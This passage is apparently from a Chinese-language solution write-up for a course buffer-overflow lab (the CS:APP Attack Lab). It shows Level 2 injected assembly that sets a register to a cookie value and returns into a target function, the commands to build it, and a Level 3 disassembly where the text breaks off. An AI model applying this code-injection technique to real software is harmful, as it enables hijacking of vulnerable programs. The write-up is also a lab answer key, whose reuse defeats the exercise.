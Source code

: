 ```assembly
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

**要求：**

利用输入的字符串携带指令实现修改寄存器%edi的值，使之与`cookie`相等，随后将控制转移给`touch2`。

**答案：**

首先编写修改寄存器值并转移控制的汇编代码（`asm2.s`），这是攻击字符串的第一部分：

```assembly
movq  $0x59b997fa,%rdi  #设置参数
pushq $0x4017ec         #转移控制
ret
```

获取其对应机器代码：

```
gcc -c asm2.s -o 2.o
objdump -d 2.o > 2.txt
```

整合机器代码、填充及返回地址覆盖（<u>%rsp，Gets后设置断点检查寄存器获得</u>），得到`attack2.txt`，调用`hex2raw`得到`attack2x.txt`实现攻击。

### Level 3

**汇编代码分析：**

```assembly
00000000004017a8 <getbuf>:
  ...

000000000040184c <hexmatch>:
  ...
#Writeup中说明此函数功能为比较参数（%rdi）【无符号整型转换为16进制字符串】与cookie是否相同。

00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch> #比较
  401916:	85 c0                	test   %eax,%eax
  401918:	74 23                	je     40193d <touch3+0x43>
  40191a:	48 89 da             	mov    %rbx,%rdx
  40191d:	be 38 31 40 00       	mov    $0x403138,%esi
  401922:	bf 01 00 00 00       	mov    $0x1,%edi
  401927:	b8 00 00 00 00       	mov    $0x0,%eax
  40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401931:	bf 03 00 00 00       	mov    $0x3,%edi
  401936:	e8 52 03 00 00       	callq  401c8d <validate>
  40193b:	eb 21                	jmp    40195e <touch3+0x64>
  40193d:	48 89 da             	mov    %rbx,%rdx
  401940:	be 60 31 40 00       	mov    $0x403160,%esi
  401945:	bf 01 00 00 00       	mov    $0x1,%edi
  40194a:	b8 00 00 00 00       	mov    $0x0,%eax
  40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401954:	bf 03 00 00 00       	mov    $0x3,%edi
  401959:	e8 f1 03 00 00       	callq  401d4f <fail>
  40195e:	bf 00 00 00 00       	mov    $0x0,%edi
  401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>
```
